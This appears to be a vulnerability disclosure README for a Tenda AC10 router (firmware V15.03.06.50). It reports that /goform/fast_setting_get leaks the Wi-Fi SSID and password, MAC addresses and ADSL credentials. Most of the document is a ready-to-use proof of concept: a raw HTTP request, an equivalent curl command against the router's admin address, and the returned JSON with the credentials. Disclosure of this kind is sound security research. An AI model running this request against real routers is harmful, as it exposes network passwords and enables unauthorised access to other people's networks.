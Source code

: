 # IOT-CVE

Details
--------

An issue was discovered on Tenda AC1200 MV-MIMO Dual Band GB wifi Router (AC-10)  devices with firmware V15.03.06.50_multi. Privilege escalation
vulnerability in /goform/fast_setting_get allows attackers to enumrate and get Routers Default Information (ssid, password, devicemac, defmac, adsluser, adslpassword)  on the system via a crafted post request.


Poc
---
GET /goform/fast_setting_get?0.7024619795874003 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: password=mibtgb
Connection: close

Curl;

curl -i -s -k -X $'GET' \
    -H $'Host: 192.168.0.1' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36' -H $'X-Requested-With: XMLHttpRequest' -H $'Referer: http://192.168.0.1/index.html' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Cookie: password=mibtgb' -H $'Connection: close' \
    -b $'password=mibtgb' \
    $'http://192.168.0.1/goform/fast_setting_get?0.7024619795874003';



Response
---------

HTTP/1.1 200 OK
Content-type: text/plain; charset=utf-8
Pragma: no-cache
Cache-Control: no-cache


{"line":0,"wanType":-1,"net":0,"outType":1,"timeout":"0","lanIp":"192.168.0.1","lanMask":"255.255.255.0","adslUser":"","adslPwd":"","ssid":"Tenda_B38C40","wrlPassword":"DEFAULTPASSWORD","country":"US","power":"high","cloneType":"0","mac":"","deviceMac":"RETACTED","defMac":"RETACTED"}


Acknowledgment

Pankaj Kumar Thakur (@nep_1337_1998) from Nepal
